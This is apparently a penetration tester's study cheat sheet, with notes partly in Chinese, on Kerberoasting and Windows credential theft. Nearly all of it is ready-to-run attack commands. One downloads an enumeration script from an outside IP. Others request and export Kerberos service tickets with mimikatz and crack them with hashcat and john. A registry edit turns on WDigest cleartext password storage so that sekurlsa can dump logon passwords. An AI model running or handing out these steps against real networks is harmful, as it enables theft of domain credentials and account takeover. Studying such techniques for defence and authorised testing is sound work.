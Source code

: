 **hashcat/john crack**

```powershell
hashcat -m 13100 hash.txt pass.txt

//kirbi2john.py, kali 自带有问题，git kerberoast  执行执行convert
python kirbi2john.py 1.kirbi -o xx.hash
//kali apt upgrade john  1.9
https://github.com/nidem/kerberoast.git
john –format=krb5tgs crack_file — wordlist=dict.txt
```

**powershell traditional**
```powershell
#-1 get users with spns
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.196/GetUserSPNs.ps1', 'GetUserSPNs.ps1')
.\GetUserSPNs.ps1

#-2 request service ticket
// add system.indentitymodel namespace
Add-Type -AssemblyName System.IdentityModel
//requesting a service ticket
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

Id                   : uuid-35d986c1-d7c2-4230-8969-0e4632c73b17-1
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 12/5/2021 4:26:56 PM
ValidTo              : 12/5/2021 9:06:13 PM
ServicePrincipalName : MSSQLSvc/xor-app23.xor.com:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

# display all cached kerberos tickets for current user
klist

#-exporting tickets from memery, to kirbi file
mimikatz
kerberos::list /export

#-kali 破解密码
apt update && apt install kerberoast
python ~/ptw/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-
Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```


### clear-text pwd
+ 8位以上的NTLM不易破解，尽量抓取明文密码
+ server 2012/windows 8之后版本的系统默认不会在内存中保存明文密码；确认注册表已经开启内存明文存储密码的注册表项

```bash
# 查询相应注册表项
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential

# 修改注册表项，开启内存明文存储密码
reg add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f

# 获取用户账号明文密码
privilege::debug
log passdump.log
sekurlsa::logonpasswords full
```
